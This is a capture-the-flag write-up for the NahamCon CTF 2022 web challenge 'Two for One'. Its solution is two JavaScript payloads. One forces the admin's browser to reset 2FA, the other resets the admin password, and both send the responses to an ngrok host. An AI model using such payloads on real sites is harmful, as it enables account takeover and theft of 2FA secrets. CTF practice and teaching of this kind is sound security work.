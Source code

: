 ```yaml
---
name: Two for One (2022)
event: NahamCon CTF 2022
category: Web
description: Writeup for Two for One (Web) - NahamCon CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Two for One

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/ttsFRYkL8wQ/0.jpg)](https://youtu.be/ttsFRYkL8wQ?t=1906 "NahamCon CTF 2022: Two for One")

## Description

> Need to keep things secure? Try out our safe, the most secure in the world!

## Solution

#### 2fa_exfil.js

{% code overflow="wrap" %}
```js
// Extract 2fa code from admin, can then generate QR code for GAuth (update the secret)
// https://www.google.com/chart?chs=200x200&chld=M%7C0&cht=qr&chl=otpauth://totp/Fort%20Knox:admin?secret=APJ5VXIQVMM5UF6X&issuer=Fort%20Knox
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://challenge.nahamcon.com:30666/reset2fa", true);
xhr.withCredentials = true;
xhr.onload = function () {
    var flag = btoa(xhr.responseText);
    var exfil = new XMLHttpRequest();
    exfil.open("GET", "http://b6a5-81-103-153-174.ngrok.io/?flag=" + flag);
    exfil.send();
};
xhr.send();
```
{% endcode %}

#### reset_pw.js

{% code overflow="wrap" %}
```js
// Reset admin password
var http = new XMLHttpRequest();
var url = "http://challenge.nahamcon.com:30666/reset_password";
var data = JSON.stringify({
    password: "admin",
    password2: "admin",
    otp: "661035",
});
http.open("POST", url, true);

// Not actually needed, just for debugging
http.onload = function () {
    var flag = btoa(http.responseText);
    var exfil = new XMLHttpRequest();
    exfil.open("GET", "http://b6a5-81-103-153-174.ngrok.io?flag=" + flag);
    exfil.send();
};

http.setRequestHeader("Content-type", "application/json");

http.send(data);
```
{% endcode %}
